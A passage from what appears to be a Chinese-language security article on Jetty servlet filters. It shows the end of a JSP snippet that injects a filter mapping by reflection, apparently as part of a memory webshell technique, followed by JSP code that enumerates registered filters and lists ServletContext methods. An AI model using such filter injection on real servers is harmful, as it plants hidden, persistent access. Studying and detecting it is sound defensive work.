 ```
                servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass()).invoke(servletHandler, filterMapping);

            }     
        }
    }
%>
```

### 2.枚举Filter

#### (1)通过request对象调用getFilterRegistrations枚举Filter

Jetty下可用的完整代码如下：

```
<%@ page import="java.lang.reflect.Method "%>
<%
    ServletContext servletContext = request.getServletContext();
    Method m1 = servletContext.getClass().getSuperclass().getDeclaredMethod("getFilterRegistrations");
    Object obj1 = m1.invoke(servletContext);
    out.println(obj1); 
%>
```

对应命令为：`request.getSession().getServletContext().getClass().getSuperclass().getDeclaredMethod("getFilterRegistrations").invoke(request.getSession().getServletContext())`

**注：**

查看`servletContext`支持的方法：

```
<%@ page import="java.lang.reflect.Method "%>
<%
    ServletContext servletContext = request.getServletContext();
    Method[] methods = servletContext.getClass().getSuperclass().getDeclaredMethods();
    for(Method method:methods){
        out.print(method.getName() + "<br>");
}
%>
```

返回结果如下：

```
createInstance
addListener
addListener
addListener
getFilterRegistration
getFilterRegistrations
setSessionTrackingModes
getEffectiveSessionTrackingModes
getJspConfigDescriptor
getSessionCookieConfig
getDefaultSessionTrackingModes
getServletRegistration
getServletRegistrations
getNamedDispatcher
setJspConfigDescriptor
setInitParameter
declareRoles
destroyFilter
addServlet
addServlet
```